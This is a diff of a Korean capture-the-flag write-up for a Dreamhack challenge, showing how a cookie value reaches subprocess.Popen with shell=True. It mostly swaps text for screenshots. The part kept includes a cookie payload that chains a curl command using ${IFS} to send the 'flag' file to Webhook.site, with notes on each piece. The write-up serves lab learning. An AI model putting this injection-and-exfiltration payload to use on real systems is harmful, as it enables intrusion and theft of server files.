

Before and after one commit to myhtml1231-star/write-up, a Markdown page: B2/B2 Simple Note Manager.md, the part around one of its changes. Drawn GitHub-style; pictures changed too: B2/assets/simple-note-03-before.png (added), B2/assets/simple-note-04-after.png (added), B2/assets/simple-note-05-webhook.png (added); blank space fills up the shorter version.

Commit message:
docs: promote illustrated Simple Note Manager write-up to B2

````diff
--- a/B2/B2 Simple Note Manager.md
+++ b/B2/B2 Simple Note Manager.md
@@ -86,18 +65,7 @@ HTTP history의 요청 조회 창은 수정할 수 없으므로 Repeater의 **Re
 
-### 4. Repeater에서 Cookie 수정
-
-기존 `backup-timestamp` 쿠키를 공격용 값으로 변경한다.
-
-**수정 전**
-
-```http
-POST /backup_notes HTTP/1.1
-Host: host3.dreamhack.games:16318
-Cookie: backup-timestamp=1793712318.996075
-Content-Length: 0
-```
-
-**수정 후**
+| 수정 전 — 정상 쿠키 | 수정 후 — 조작한 쿠키 |
+| :---: | :---: |
+| <img src="assets/simple-note-03-before.png" width="450" alt="Repeater에서 수정 전 backup-timestamp"> | <img src="assets/simple-note-04-after.png" width="450" alt="Repeater에서 수정 후 backup-timestamp"> |
 
 ```http
 POST /backup_notes HTTP/1.1
@@ -106,19 +74,16 @@ Cookie: backup-timestamp=123456&&curl${IFS}-G${IFS}--data-urlencode${IFS}data@fl
 Content-Length: 0
 ```
 
-- `123456&&` : `cp` 명령이 성공하면 뒤의 명령어 실행
-- `${IFS}` : 쉘에서 공백 대신 사용하는 구분 문자
-- `-G --data-urlencode data@flag` : `flag` 파일 내용을 URL 인코딩해 GET 요청의 `data` 파라미터로 전송
+- `123456&&` : 먼저 실행된 `cp`가 성공하면 뒤에 있는 명령을 실행한다.
+- `${IFS}` : 쉘에서 공백 대신 사용하는 구분 문자다.
+- `-G --data-urlencode data@flag` : 현재 작업 디렉터리의 `flag` 파일 내용을 인코딩해 GET 요청의 `data` 파라미터로 전송한다.
 
-`data`는 직접 지정한 쿼리 파라미터 이름이고, `flag`는 읽을 파일 이름이다.
+`data`는 미리 존재하는 파라미터가 아니라 여기서 지정한 이름이다. `flag`는 읽을 파일명이다.
 
 ### 5. Webhook.site에서 FLAG 확인
 
-Repeater에서 **Send**를 누르고 Webhook.site에서 수신된 GET 요청을 확인한다. **Query strings → data** 항목에 FLAG가 표시됐다.
+Repeater에서 **Send**를 누른 뒤 Webhook.site를 확인한다. 실제로 GET 요청이 수신되었고, **Query strings**의 `data` 항목에 `DH{...}` 형태로 FLAG가 표시됐다.
 
-```text
-Query strings
-data = DH{...}
-```
+![Webhook.site의 GET 요청과 data 파라미터에 기록된 FLAG](assets/simple-note-05-webhook.png)
 
 **취약점 원인:** 사용자가 변경할 수 있는 `backup-timestamp` 쿠키를 검증 없이 `subprocess.Popen(..., shell=True)`에 삽입하여 OS Command Injection이 발생했다.
````
Also changed, not shown: other parts of B2/B2 Simple Note Manager.md (+15 -36 lines), B2/assets/simple-note-01-set-cookie.png (added), B2/assets/simple-note-02-send-repeater.png (added).
